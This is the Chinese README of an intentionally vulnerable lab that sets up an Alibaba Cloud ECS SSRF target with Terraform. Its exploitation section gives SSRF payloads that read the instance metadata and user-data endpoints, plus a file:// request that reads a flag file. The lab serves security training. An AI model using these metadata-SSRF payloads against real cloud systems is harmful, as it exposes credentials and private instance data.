 # 阿里云 ECS SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建阿里云 ECS SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 ECS 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/aliyun/elastic_computing_service/ecs_ssrf/
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1651824215.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可。

## 漏洞利用

在存在 SSRF 漏洞的 ECS 上，我们可以利用 SSRF 读取 ECS 的元数据、用户数据等信息。

读取元数据

```shell
http://100.100.100.200/latest/meta-data/
```

![img](../../../images/1651824930.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://100.100.100.200/latest/user-data/
```

![img](../../../images/1651824992.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
